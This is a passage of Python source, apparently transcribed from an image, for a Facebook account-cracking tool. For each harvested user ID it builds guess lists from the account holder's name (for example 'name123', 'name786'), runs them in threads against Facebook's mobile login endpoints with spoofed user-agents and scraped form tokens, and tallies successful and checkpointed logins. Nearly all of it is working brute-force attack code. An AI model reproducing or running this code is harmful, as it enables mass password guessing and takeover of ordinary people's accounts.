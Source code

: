 			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = ['445566']
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(frs+'123')
					pwv.append(frs+'12345')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'12345')
					pwv.append(frs+'1234')
					pwv.append(frs+'786')
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(free,idf,pwv)
			else:
				pool.submit(crack,idf,pwv)
	
# CRACKER
def crack(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	sys.stdout.write('\r %s[ TRUONG ] %s•%s • OK:%s • CP:%s  '%(bi,loop,len(id2),len(ok),cp)),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			pw = pw.lower()
			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://m.facebook.com/login/save-device/'"}
			ses.headers.update({"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				cp +=1